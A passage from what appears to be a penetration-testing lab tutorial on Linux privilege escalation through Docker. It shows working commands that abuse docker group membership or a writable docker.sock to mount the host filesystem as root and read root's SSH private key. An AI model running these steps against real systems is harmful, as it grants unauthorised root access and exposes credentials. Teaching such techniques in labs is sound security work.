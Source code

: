 Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

From there, we can again try to grab the private SSH key and log in as root or as any other user on the system with a private SSH key in its folder.

### Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows him to use and control the Docker daemon.

```shell-session
$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

Most hosts have a direct internet connection because the base images and containers must be downloaded. However, many hosts may be disconnected from the internet at night and outside working hours for security reasons. However, if these hosts are located in a network where, for example, a web server has to pass through, it can still be reached.

To see which images exist and which we can access, we can use the following command:

```shell-session
$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

### **Docker Socket**

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
```